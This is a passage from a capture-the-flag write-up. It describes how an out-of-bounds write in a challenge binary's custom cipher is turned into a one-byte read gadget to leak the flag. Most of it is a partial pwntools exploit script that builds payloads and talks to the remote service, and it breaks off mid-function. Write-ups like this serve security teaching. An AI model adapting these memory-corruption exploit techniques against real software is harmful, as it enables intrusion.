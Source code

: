 The easiest setup I found for that was producing 1-byte-read gadget.
Because we write OOB at address `0x14ad` the temporary buffer is not initialized as intended.
On the remote it likely contained an address, according to our tests on different setups.
That leaves two clean null bytes though that we can use.
In the second inner loop the key nibbles will be copied, leaving those two bytes as zero when we send a key like `'0'*16`.
Then, in the third loop that value (as nibbles) is used as the first index accessing the permutation array.
We can set that to the offset we like to read directly using the shifts.
Now, I didn't consider this correctly and so I used the write gadget to overwrite the first bytes of the permutation buffer first.
A bit of unnecessary work, but hey, it's also a working solution.
The outer access than reads our target byte and it runs through the remaining 15 rounds of the encryption.
We can than decrypt that (my function from Stage 1 can do that by just passing less shifts) to nearly reconstruct the flag.

```py
# WARNING: solution unstable for general use (see improved script in stage 3)!
from dataclasses import dataclass
import pwn

from decrypt import PERMUTATION, decrypt_block, from_nibbles, to_nibbles


@dataclass
class Block:
    # key: bytes
    shifts: list[int]
    plaintext: bytes


PERMUTATION_LOOKUP = [0] * 16
for i in range(16):
    PERMUTATION_LOOKUP[PERMUTATION[i]] = i


PATH = "./challenge_patched"
RETURN_OFFSET = 0x58


binary = pwn.ELF(PATH)


# Currently 8 bytes only, max offset 127
def build_payload(payload: bytes, offset: int):
    assert len(payload) == 8
    assert offset <= 127

    shifts = [0] * 16
    shifts[0] = offset * 2

    out = [0] * 16
    payload_nibbles = to_nibbles(payload)
    for i in range(16):
        out[i] = payload_nibbles[PERMUTATION_LOOKUP[i]]

    real_payload = from_nibbles(out)

    return Block(shifts, real_payload)


def send_block(conn: pwn.tube, block: Block):
    conn.recvuntil(b"Please provide a key for block ")
```